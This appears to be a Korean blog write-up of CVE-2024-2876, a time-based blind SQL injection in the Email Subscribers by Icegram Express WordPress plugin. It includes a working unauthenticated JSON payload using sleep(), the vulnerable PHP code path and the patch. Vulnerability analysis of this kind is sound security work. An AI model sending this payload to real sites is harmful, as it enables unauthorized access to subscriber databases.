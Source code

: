 ```yaml
---
title: "[CVE-2024-2876] 취약점 분석 보고서"
description: "Email Subscribers by Icegram Express에서 발생하는 Time Based Blind SQL Injection 취약점"
author: bde574786
date: 2025-01-14 17:35:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Blind SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. 취약점 개요**

**Email Subscribers by Icegram Express**는 WordPress용 플러그인으로, 웹사이트 소유자가 이메일 마케팅과 관련된 다양한 작업을 쉽게 수행할 수 있도록 도와주는 도구이다. 이 플러그인은 사용자 친화적인 인터페이스를 제공하며, 구독자 관리, 뉴스레터 작성 및 발송, 자동화된 이메일 캠페인 생성 등을 지원한다.
CVE-2024-2876은 해당 플러그인에서 발견된 SQL Injection 취약점으로 버전 5.7.14 이하에서 존재하며, 사용자 입력값에 대한 적절한 이스케이프 처리 부족과 SQL 쿼리의 불충분한 준비로 인해 발생한다.

## **2. 영향을 받는 버전**

- Email Subscribers by Icegram Express ≤ 5.7.14

## **3. 취약점 테스트**

UI 단에서 요청을 추적하기 어려워 curl 명령어로 raw 요청을 직접 전송하였다.

POST 요청으로 삽입하는 데이터는 아래와 같다.

```json
{
  "page": "es_subscribers",
  "is_ajax": 1,
  "action": "_sent",
  "advanced_filter": {
	"conditions": [
	  [
		{
		  "field": "status=99924)))union(select(sleep(30)))--+",
		  "operator": "==",
		  "value": "1111"
		}
	  ]
	]
  }
}
```

success가 false로 표시되었으나 이는 응답 구조가 정상적임을 의미한다. 또한, 페이로드는 내부적으로 처리되었으며 오류도 발생하지 않았다는 것을 알 수 있다. 

time 명령어로 요청 시간을 확인한 결과 sleep 함수로 시간을 늘릴수록 응답시간이 인위적으로 지연되었다.

![image.png](assets/posts/one-day/2025-01-14/image.png)

## **4. 취약점 상세 분석**

코드를 살펴보면 플러그인이 클래스 `maybe_apply_bulk_actions_on_all_contacts()`의 함수를 `Email_Subscribers_Admin` 관리자 init 후크에 추가한다는 것을 알 수 있다. 이 함수는 nonce 검증을 수행하지 않으므로 인증되지 않은 공격자가 호출할 수도 있다.

```php
// lite/admin/class-email-subscribers-admin.php

add_action( 'admin_init', array( $this, 'maybe_apply_bulk_actions_on_all_contacts' ) );
```

이후, 이 함수는 클래스를 사용하여 데이터베이스에서 구독자를 쿼리하게 된다.

```php
// lite/admin/class-email-subscribers-admin.php

public function maybe_apply_bulk_actions_on_all_contacts() {
	...
	$contacts_table = new ES_Contacts_Table();
	...
}
```

```php
// lite/includes/classes/class-es-contacts-table.php

public function get_subscribers( $per_page = 5, $page_number = 1, $do_count_only = false ) {
	...
	$advanced_filter = ig_es_get_request_data('advanced_filter');
	$advanced_filter = ( !empty($advanced_filter) ) ? $advanced_filter['conditions'] : '';
	...
	if ( !empty ( $advanced_filter ) ) {
		$query_obj  = new IG_ES_Subscribers_Query();
		$query_args = array(
					'select'    => array( 'subscribers.id' ),
					'conditions'=> $advanced_filter,
					'return_sql'=> true,
				);
	
				$condition = $query_obj->run($query_args);
	}
	...
}
```

`IG_ES_Subscribers_Query` 클래스의 `run` 함수 내부이다.  `get_subscribers` 함수에서의 advanced_filter의 값은 최종적으로 `IG_ES_Subscribers_Query::run` 함수의 `condition` 의 인자로 전달된다. 따라서, `advanced_filter` 의 `condition` 키를 조작하면 SQL Injection을 성공적으로 실행할 수 있게 된다.

```php
// lite/includes/classes/class-ig-es-subscriber-query.php

if ( ! empty( $this->args['conditions'] ) ) {
			foreach ( $this->args['conditions'] as $i => $and_conditions ) {

				$sub_cond = array();

				if ( ! empty( $and_conditions ) ) {
					foreach ( $and_conditions as $j => $condition ) {

						$field    = isset( $condition['field'] ) ? $condition['field'] : ( isset( $condition[0] ) ? $condition[0] : null );
						$operator = isset( $condition['operator'] ) ? $condition['operator'] : ( isset( $condition[1] ) ? $condition[1] : null );
						$value    = isset( $condition['value'] ) ? $condition['value'] : ( isset( $condition[2] ) ? $condition[2] : null );

```

페이로드가 성공적으로 주입되면 최종적으로는 아래와 같은 쿼리가 완성되며 기존 조건이 종료되고 sleep 구문이 실행된다.

```sql
SELECT subscribers.id FROM wp_ig_contacts AS subscribers LEFT JOIN wp_ig_lists_contacts AS lists_subscribers ON subscribers.id = lists_subscribers.contact_id WHERE 1=1 AND ( ( subscribers.status=99924)))union(select(sleep(5)))-- = '1111' ) )
```

## 5. 패치

[https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3114483%40slider-wd&old=3103665%40slider-wd&sfp_email=&sfph_mail=](https://plugins.trac.wordpress.org/changeset/3060251/email-subscribers/trunk/lite/includes/classes/class-ig-es-subscriber-query.php)

`$value` 가 SQL 쿼리에 삽입되기 전에, `esc_sql` 함수를 통해 이스케이프 처리를 하도록 변경되었다.

![image.png](assets/posts/one-day/2025-01-14/image%201.png)